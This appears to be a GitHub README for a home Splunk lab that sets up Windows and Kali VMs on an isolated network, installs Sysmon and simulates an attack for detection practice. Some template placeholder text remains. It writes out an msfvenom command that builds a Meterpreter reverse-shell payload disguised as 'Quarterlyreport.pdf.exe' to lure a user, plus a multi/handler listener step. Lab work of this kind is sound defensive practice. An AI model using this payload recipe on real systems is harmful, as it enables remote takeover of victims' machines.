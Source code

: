 Objective

This Splunk Lab project was created to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze logs within a SIEM, generating test telemetry to mimic real-world attack scenarios.  
Skills Learned

[Bullet Points - Remove this afterwards]
Log Analysis
Advanced understanding of SIEM concepts and practical application.
Proficiency in analyzing and interpreting network logs.
Ability to generate and recognize attack signatures and patterns.
Enhanced knowledge of network protocols and security vulnerabilities.
Development of critical thinking and problem-solving skills in cybersecurity.
Tools Used
[Bullet Points - Remove this afterwards]

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps
drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

Spin up TWO VM's, One being Windows and the other being Kali Linux, with the network adapter set to the Internal Network setting while making both VM IP's static to the same network, I selected this network scheme for security purposes because I do not want these VM's routing to the internet while still being able to communicate with the other. 
The IP's in this lab are: Windows box - 192.168.33.2, Kali box - 192.168.33.3 
<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />
Ref 1: Virtual Box Settings

To set up our blue team environment, we will be configuring Sysmon on the endpoint to gather logs and send them directly to our Splunk instance.
We did this by allocating a Sysmon config file from Github, copying it to our directory, and running the command ./sysmon64.exe -i sysmonconfig.xml
Installing Sysmon will enhance our ability to capture system events (Since I don't want to expose these VMs to the internet, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file into the box. 

SPLUNK SETUP

Quarterlyreport.pdf.exe

KALI SETUP

Created Malware payload msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool 
lhost determines where this reverse shell will remote back to, we chose the IP of the red team box
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)


ran multi/handler on msf exploit 
